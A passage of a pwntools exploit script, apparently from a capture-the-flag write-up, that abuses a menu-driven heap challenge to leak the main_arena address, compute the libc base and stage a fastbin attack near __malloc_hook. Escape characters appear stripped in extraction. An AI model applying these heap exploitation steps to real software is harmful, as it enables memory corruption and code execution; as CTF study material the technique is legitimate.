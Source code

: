 ```

    f = open('/tmp/gdb_script`{``}`'.replace('`{``}`', salt), 'w')
    f.write(gdbscript)
    f.close()
except Exception as e:
    print(e)

def add(size, index, content):
    sh.sendlineafter('choice &gt;&gt; n', '1')
    sh.sendlineafter('Size : ', str(size))
    sh.sendlineafter('index: ', str(index))
    sh.sendafter('name:n', content)

def remove(index):
    sh.sendlineafter('choice &gt;&gt; n', '2')
    sh.sendlineafter('idx :', str(index))

def show(index):
    sh.sendlineafter('choice &gt;&gt; n', '3')
    sh.sendlineafter('idx :', str(index))

for i in range(6):
    add(0x58, i, 'n')

for i in range(5):
    remove(i)

add(0x28, 4, 'n')


sh.sendlineafter('choice &gt;&gt; n', '0' * 0x400)

add(0x58, 0, 'a' * 0x50 + p64(0x61))
add(0x18, 1, 'n')
add(0x50, 2, 'n')
add(0x48, 3, 'n')
remove(1)
remove(5)
add(0x48, 5, 'n')
sh.sendlineafter('choice &gt;&gt; n', '0' * 0x400)

add(0x18, 0, 'n')
add(0x18, 1, 'n')
show(2)
sh.recvuntil('flowers : ')
result = sh.recvuntil('1.', drop=True)
main_arena_addr = u64(result.ljust(8, '')) - 88
log.success('main_arena_addr: ' + hex(main_arena_addr))

libc_addr = main_arena_addr - (libc.symbols['__malloc_hook'] + 0x10)
log.success('libc_addr: ' + hex(libc_addr))

remove(3)
remove(4)

add(0x38, 3, 'n')
add(0x50, 4, '' * 0x10 + p64(0) + p64(0x51) + p64(main_arena_addr + 0xd))

add(0x48, 1, 'n')

add(0x48, 0, '' * 0x3b + p64(main_arena_addr - 0x28))
add(0x50, 2, 'n')
add(0x50, 2, 'n')
```